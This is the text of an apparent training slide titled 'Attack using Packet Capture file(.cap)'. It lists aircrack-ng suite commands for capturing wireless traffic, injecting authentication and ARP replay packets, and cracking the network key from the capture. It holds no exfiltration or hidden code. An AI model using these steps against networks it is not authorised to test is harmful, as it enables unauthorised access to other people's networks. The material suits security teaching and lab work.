

# Attack using Packet Capture file(.cap)

STEPS:
airodump-ng {interface name ex:wlan0mon}(Monitor mode enabled interface name)
airodump-ng  -c  {channel}   --bssid{BSSID}  - w  {desired filename to save}   {interface name}
In new terminal: aireplay-ng  -1  0  -a  {BSSID}   {interface name}   (Authentication Request)
aireplay-ng  -3  -b  {BSSID}  {interface}
In new terminal: aircrack-ng {filename example: attack.cap}